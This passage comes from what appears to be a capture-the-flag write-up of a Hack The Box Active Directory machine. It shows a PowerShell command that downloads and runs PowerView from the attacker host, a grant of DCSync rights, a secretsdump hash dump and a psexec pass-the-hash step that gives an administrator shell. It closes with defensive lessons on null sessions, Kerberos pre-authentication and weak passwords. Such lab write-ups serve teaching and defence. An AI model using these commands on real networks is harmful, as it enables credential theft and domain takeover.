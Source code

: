 ```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.45:5555/PowerView.ps1')
```

Use the _Add-DomainObjectAcl_ function in PowerView to give the user DCSync privileges.

```text
$pass = convertto-securestring 'password' -AsPlainText -Force$cred = New-Object System.Management.Automation.PSCredential('htb\rana', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rana -Rights DCSync
```

On the attack machine, use the [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) Impacket script to dump the password hashes of all the users on the domain.

```text
impacket-secretsdump htb.local/rana:password@10.10.10.161
```

We get back the following result.

![](https://miro.medium.com/max/1282/1*JAQEZrr25tXnVVJB1U6TvQ.png)

Use the [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) Impacket script to perform a pass the hash attack with the Administrator’s hash.

```text
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

We get a shell!

![](https://miro.medium.com/max/1311/1*zpRXRpDak9HjctGhr-r38g.png)

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/674/1*kvYdA9aRT3jgQur8ZvcIkw.png)

## Lessons Learned <a id="45fb"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. SMB null session authentication. We were able to authenticate to the host without having to enter credentials. As an unauthenticated remote attacker, we leveraged this vulnerability to enumerate the list of users on the domain. Null sessions should be restricted or disabled on the server.
2. Kerberos pre-authentication disabled. After enumerating the list of users on the domain, we ran a script that checked if kerberos pre-authentication was disabled on any of the user accounts. We found that was the case for one of the service accounts. Therefore, we sent a dummy request for authentication and the KDC responded with a TGT encrypted with the user’s password. Kerberos pre-authentication should be enabled for all user accounts.
3. Weak authentication credentials. After getting a TGT encrypted with the user’s password, we passed that TGT to a password cracker and cracked the user’s password. This allowed us to authenticate as the user and gain an initial foothold on the box. The user should have used a stronger password that is difficult to crack.
